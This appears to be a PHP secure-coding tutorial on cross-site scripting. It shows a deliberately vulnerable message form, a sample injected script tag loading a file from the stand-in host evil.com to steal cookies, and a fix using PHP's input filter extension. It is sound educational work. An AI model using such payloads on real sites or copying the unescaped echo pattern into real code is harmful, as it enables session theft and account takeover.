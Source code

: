 {{% feature-panel %}}

## 1\. Cross-Site Scripting (XSS)

Cross-site scripting is an attack in which a user is tricked into executing code from an attacker's site (say evil.com) in the context of our website (let's call it www.mybiz.com). This is a problem regardless of what our website does, but the severity of the problem changes depending on what our users can do on the site. Let's look at an example.

Let's say that our site allows the user to post cute little messages for the world (or maybe only their friends) to see. We'd have code that looks something like this:

<pre><code class="language-php">&lt;?php
  echo "$user said $message";
?&gt;</code></pre>

To read the message in from the user, we'd have code like this:

<pre><code class="language-php">&lt;?php
  $user = $_COOKIE['user'];
  $message = $_REQUEST['message'];
  if($message) {
     save_message($user, $message);
  }
?&gt;
&lt;input type="text" name="message" value="&lt;?php echo $message ?&gt;"&gt;</code></pre>

This works only as long as the user sticks to messages in plain text, or perhaps a few safe HTML tags like &lt;strong&gt; or &lt;em&gt;. We're essentially trusting the user to only enter safe text. An attacker, though, may enter something like this:

<pre><code class="language-php">Hi there...&lt;script src="h++p://evil.com/bad-script.js"&gt;&lt;/script&gt;</code></pre>

(Note that I've changed http to h++p to prevent auto-linking of the URL).

When a user views this message on their own page, they load <code>bad-script.js</code> into their page, and that script could do anything it wanted, for example, it could steal the contents of <code>document.cookie</code>, and then use that to impersonate the user and possibly send spam from their account, or more subtly, change the contents of the HTML page to do nasty things, possibly installing malware onto the reader's computer. Remember that <code>bad-script.js</code> now executes in the context of www.mybiz.com.

This happens because we've trusted the user more than we should. If, instead, we only allow the user to enter contents that are safe to display on the page, we prevent this form of attack. We accomplish this using PHP's <a href="https://www.php.net/manual/en/intro.filter.php">input_filter extension</a>.

We can change our PHP code to the following:

<pre><code class="language-php">&lt;?php
  $user = filter_input(INPUT_COOKIE, 'user',
                         FILTER_SANITIZE_SPECIAL_CHARS);
  $message = filter_input(INPUT_POST | INPUT_GET, 'message',
                         FILTER_SANITIZE_SPECIAL_CHARS);
  if($message) {
     save_message($user, $message);
  }
?&gt;
&lt;input type="text" name="message" value="&lt;?php echo $message ?&gt;"&gt;</code></pre>
